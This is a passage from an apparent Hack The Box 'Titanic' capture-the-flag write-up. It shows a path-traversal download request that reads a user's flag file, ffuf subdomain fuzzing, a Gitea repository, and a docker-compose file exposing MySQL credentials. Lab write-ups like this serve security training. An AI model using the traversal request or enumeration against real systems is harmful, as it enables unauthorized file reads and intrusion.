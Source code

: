 Using this information, we accessed the user flag:

```text
/download?ticket=/home/developer/user.txt
```

## Subdomain Enumeration

We used `ffuf` to enumerate subdomains:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.titanic.htb" -u http://titanic.htb -fc 301
```

![Titanic - ffuf subdomains](/ctf/hack-the-box/machines/titanic/ffuf-subdomain.png)

The scan identified a valid subdomain: `dev.titanic.htb`.

### Enumerating the `dev` subdomain

After adding the subdomain to `/etc/hosts`:

```bash
echo "10.10.11.55 dev.titanic.htb" >> /etc/hosts
```

We discovered a [Gitea](https://about.gitea.com/) instance hosting two repositories:

- `docker-config`
- `flask-app`

![Titanic - repositories](/ctf/hack-the-box/machines/titanic/repositories.png)

#### Repository: `docker-config`

Inside the `docker-config` repository, we found a `docker-compose.yml` file:

```yaml
services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: "MySQLP@$$w0rd!"
      MYSQL_DATABASE: tickets
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```

This reveals MySQL root credentials, though port 3306 is locally bound and not externally accessible:

```bash
PORT     STATE  SERVICE VERSION
3306/tcp closed mysql
```

